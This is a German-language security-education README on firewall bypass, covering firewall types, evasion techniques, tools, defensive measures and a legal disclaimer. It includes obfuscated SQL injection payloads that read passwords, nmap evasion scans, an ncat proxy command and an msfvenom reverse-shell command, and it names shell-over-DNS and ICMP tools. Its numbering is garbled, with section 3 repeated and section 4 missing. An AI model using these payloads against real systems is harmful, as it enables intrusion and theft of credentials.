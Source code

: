 # 🔥 Firewall Bypass – Techniken, Tools & Schutzmaßnahmen

## 🧭 Einleitung

Firewalls sind Sicherheitsmechanismen, die den Netzwerkverkehr auf Basis definierter Regeln filtern. Sie dienen dazu:
- **Unerlaubte Zugriffe zu verhindern**
- **Angriffsversuche zu erkennen**
- **Verbindungen zu blockieren oder zuzulassen**

Ein **Firewall Bypass** bezeichnet die **Umgehung dieser Filtermechanismen**, z. B. durch Tarnung oder Manipulation des Traffics. Dieses Wissen ist für **Pentester** und **Security Analysts** essenziell, um Schwächen in der Konfiguration zu erkennen.

---

## 🛡️ Arten von Firewalls

| Firewall-Typ            | Beschreibung                                         |
|--------------------------|------------------------------------------------------|
| Paketfilter (Stateless)  | Analysiert nur Header (z. B. IP, Port, Protokoll)   |
| Stateful Firewall        | Erkennt Verbindungskontexte (SYN → ACK etc.)        |
| Application Firewall     | Analysiert Inhalte auf Anwendungsebene (HTTP, FTP)  |
| Web Application Firewall (WAF) | Schutz vor typischen Web-Angriffen (SQLi, XSS)     |
| Host-Based Firewall      | Lokal auf Systemen (z. B. Windows Defender Firewall) |
| Next-Gen Firewalls       | Kombinieren mehrere Funktionen inkl. IDS/IPS        |

---

## 🎯 Ziel von Firewall Bypass Techniken

- Zugriff auf gesperrte Ports oder Dienste
- Umgehen von Inhaltsscans (z. B. bei WAFs)
- Vermeiden der Detektion durch Security-Systeme
- Platzieren von Payloads oder Backdoors

---

## 🧪 Häufige Techniken zur Umgehung

### 1. **Tarnung über erlaubte Ports**
> Firewalls blockieren oft alles außer HTTP (80), HTTPS (443), DNS (53), usw.

Beispiel:
```bash
ncat --proxy-type http --proxy 192.168.1.1:8080 target.com 443
```

Oder:

- Reverse Shell über Port 443 senden
- Malware über Port 53 (DNS-Tunnel) exfiltrieren


### 2. Payload Obfuscation

    Inhalte verschleiern, um Signaturen zu umgehen (z. B. bei WAFs)

Beispiele:
```bash
# SQLi-Befehl verschleiert:
?id=1/**/UNION/**/SELECT/**/password/**/FROM/**/users

# Unicode-Encoding
?id=1%u002f%u002aUNION%u002f%u002aSELECT...

# Hex oder Base64 verschlüsselt
```

### 3. Fragmentierung von Paketen

Durch Aufteilen des Paketinhalts auf mehrere TCP-Segmente kann die Firewall umgangen werden, wenn sie keine vollständige Rekonstruktion vornimmt.

```bash
nmap -f target.com      # Fragmentierter Scan
```

### 3. Fragmentierung von Paketen

Durch Aufteilen des Paketinhalts auf mehrere TCP-Segmente kann die Firewall umgangen werden, wenn sie keine vollständige Rekonstruktion vornimmt.

```bash
nmap --scan-delay 1s target.com
```

### 5. Protocol Tunneling (DNS, ICMP, HTTP)

    Verbotene Protokolle über erlaubte Protokolle transportieren

Tools:

- dnscat2 – Shell über DNS
- iodine – Internet over DNS
- httptunnel – TCP-Tunnel via HTTP
- icmpsh – Shell über ICMP


### 6. Über Ports, die der Firewall "vertrauenswürdig" erscheinen

Reverse Shell über HTTPS:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f elf > shell.elf
```

---

## 🔧 Tools zur Analyse und Bypass

| Tool       | Zweck                                      |
| ---------- | ------------------------------------------ |
| Nmap       | Portscans, Fragmentierung, Timing          |
| Netcat     | Manuelle Verbindungen über beliebige Ports |
| Socat      | Flexible Verbindungstunnel                 |
| Metasploit | Automatisierte Payloads & Bypasses         |
| Iodine     | DNS-Tunnel                                 |
| ICMPshell  | Shell über Ping                            |

---

## 🔐 Verteidigungsmaßnahmen (Blue Team)

- Port-Whitelisting: Nur notwendige Ports erlauben
- Deep Packet Inspection (DPI): Inhalte auch fragmentiert scannen
- Timeout-Management: Verhindert Time-based Evasion
- IDS/IPS-Systeme: Tools wie Snort oder Suricata zur Signaturerkennung
- WAF-Härtung: Regeln regelmäßig aktualisieren, Obfuskation erkennen
- Application Layer Filtering: DNS, HTTP, ICMP gezielt prüfen

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---

## 📚 Lernressourcen

- TryHackMe: Rooms zu „Firewall Evasion“ und „Nmap Advanced“
- HackTheBox: Viele Labs mit WAF/Firewall-Herausforderungen
- YouTube: John Hammond, The Cyber Mentor – „Firewall Evasion Techniques“
- Bücher: „The Hacker Playbook 3“, „Nmap Network Scanning“